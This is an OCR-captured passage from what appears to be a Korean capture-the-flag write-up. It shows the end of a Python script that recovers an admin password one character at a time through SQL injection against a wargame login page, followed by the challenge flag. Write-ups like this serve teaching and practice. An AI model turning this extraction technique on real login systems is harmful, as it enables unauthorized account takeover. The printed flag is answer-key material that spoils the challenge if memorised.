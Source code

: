 ```python
                print(f"현재까지 알아낸 비밀번호: {string}")
                # return string 여기서 반환하면 안됨
                break
    return string # 완성된 string 반환

url = "http://war.knock-on.org:10003/login"
username = "admin"
password = "1"

password_length = find_password_length(url, username, password)
print(f"비밀번호 길이: {password_length}")

password_string = find_password(url, password_length, username, password)
print(f"완성된 비밀번호: {password_string}")
```

|

|

### FLAG

```
K0{fun_sqli}
```

|

---